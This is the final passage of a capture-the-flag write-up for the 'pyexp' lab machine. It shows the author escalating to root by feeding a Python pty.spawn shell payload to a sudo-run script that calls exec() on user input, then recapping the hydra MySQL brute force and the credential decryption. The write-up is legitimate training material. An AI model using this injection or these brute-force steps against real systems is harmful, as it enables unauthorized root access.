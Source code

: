 ```bash
how are you?bash
Traceback (most recent call last):
  File "/opt/exp.py", line 2, in <module>
    exec(uinput)
  File "<string>", line 1, in <module>
NameError: name 'bash' is not defined
```

**raw_input()** returns whatever you enter as a string as opposed to **input()** which will run any input as a python expression.

Because of that it tried to exec a string named bash and did not work.

<br>

## Root

After some experimentation trying different things the following worked for me and I was able to escalate over to root:

```bash
how are you?import pty;pty.spawn("/bin/bash")
root@pyexp:/home/lucy#
```

Checking out the **proof.txt** in **/root**:

`wc -c /root/proof.txt`

```bash
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/pyexp1.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration using **nmap**
- Using **hydra** to brute force our way into the exposed **mysql** database
- Finding some **Fernet** encrypted credentials and the encryption key stored in the database
- Writing a quick **python script** to decrypt the credentials allowing us to ssh over to the system for our initial foothold
- Looking at **sudo -l** and seeing we have the ability to run a specific python script as root, and using that to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
